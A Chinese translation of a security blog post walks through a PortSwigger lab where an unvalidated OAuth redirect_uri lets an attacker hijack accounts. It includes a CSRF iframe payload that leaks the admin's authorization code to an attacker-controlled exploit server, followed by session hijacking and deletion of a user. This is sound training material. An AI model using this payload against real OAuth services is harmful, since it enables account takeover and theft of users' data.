# 利用 OAuth 认证漏洞第三部分

> 原文：<https://infosecwriteups.com/exploiting-oauth-authentication-vulnerabilities-part-iii-e3db79c83359?source=collection_archive---------0----------------------->

# **简介**:

嗨，我的名字是哈沙尔·穆贾希德。我是一名网络安全专业的学生，今天我将展示一些可以用来利用 OAuth 2.0 并可能允许攻击者完全接管受害者帐户的技术。



# 泄露授权码和访问令牌:

如果 OAuth 2.0 没有正确实现，攻击者可能会获得其他用户的授权令牌，从而允许访问被入侵用户的个人信息。攻击者可以利用这些信息对个人或企业发起额外的攻击。攻击者可能会以受害者用户的身份登录到任何已向 OAuth 服务注册的客户端应用程序。

身份验证令牌泄漏的主要来源是一个开放重定向漏洞。如果 OAuth 服务提供商无法**验证它希望将令牌传递到的重定向 URI** ，攻击者可以简单地创建一个 CSRF 漏洞，误导受害者启动 **OAuth 舞蹈**，将令牌泄漏到自己的服务器，并通过代码生成**合法会话**。

让我们看一个攻击的例子。

# 实验:通过 redirect_uri 劫持 OAuth 帐户

这个[实验室](https://portswigger.net/web-security/oauth/lab-oauth-account-hijacking-via-redirect-uri)使用一个 [OAuth](https://portswigger.net/web-security/oauth) 服务来允许用户使用他们的社交媒体账户登录。OAuth 提供者的错误配置使得攻击者能够窃取与其他用户帐户相关的授权码。

为了解决实验室，窃取与管理员用户相关的授权码，然后使用它来访问他们的帐户并删除卡洛斯。

admin 用户将打开您从漏洞服务器发送的任何内容，并且他们始终与 OAuth 服务保持活动会话。

您可以使用以下凭据登录自己的社交媒体帐户:`wiener:peter`。



让我们登录网站。

在分析了登录过程发出的 HTTP 请求后，我们可以看到

```
GET auth/?client_id=bosywau2jq24g1mzj9g0y&redirect_uri=[https://0ac100a704b40f56c0c8db62008d003e.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email](https://0ac100a704b40f56c0c8db62008d003e.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email)
```

请求导致重定向到参数中存在的 URI，并在代码参数中使用新生成的访问令牌。



再直接的

让我们测试 OAuth 服务是否验证了重定向 URI。

将 URI 更改为任何一个，并查看应用程序是否重定向到该 url。



我们可以看到我们的 OAuth 服务没有验证 URI。因此，我们可以利用这一点来设计一个 csrf 攻击，让用户访问该链接，并将令牌泄露给我们的服务器。

我们需要生成一个 CSRF 有效载荷。

```
<html>
<body>
<iframe src="[https://oauth-0a92006704ef0f46c022db4602810098.web-security-academy.net/auth?client_id=bosywau2jq24g1mzj9g0y&redirect_uri=http://exploit-0a30006504b90f27c0d8dbda017300cb.web-security-academy.net&response_type=code&scope=openid%20profile%20email](https://oauth-0a92006704ef0f46c022db4602810098.web-security-academy.net/auth?client_id=bosywau2jq24g1mzj9g0y&redirect_uri=http://exploit-0a30006504b90f27c0d8dbda017300cb.web-security-academy.net&response_type=code&scope=openid%20profile%20email)"></iframe></body>
</html>
```

我们需要在`src`参数中包含我们的 OAuth 提供者的主机名，然后我们需要用我们的客户端应用程序 ID 向`/auth`发出请求，随后是我们的漏洞利用服务器的重定向 URI。

现在将漏洞存储在漏洞服务器上并测试它。



内联框架

在我们的访问日志中，我们可以看到一个代码被泄漏。



这意味着我们的漏洞正在发挥作用。

我们把它送给受害者吧。



你会收到代码，现在你需要做的就是将代码粘贴到`callback`请求中。



我们可以看到现在生成了一个新的会话，只需复制该会话并用之前的会话替换它。

```
rbNzL8wKTP0SXLULBFvOgNZzJ89Hbpgg
```



管理

我们可以在这里看到一个管理面板。

现在刷新页面，删除 Carlos。



删除卡洛斯



这就是使用泄漏的访问令牌生成认证会话的方法。

下次见！快乐黑客❤

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)，以 5 篇文章、4 条线索、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！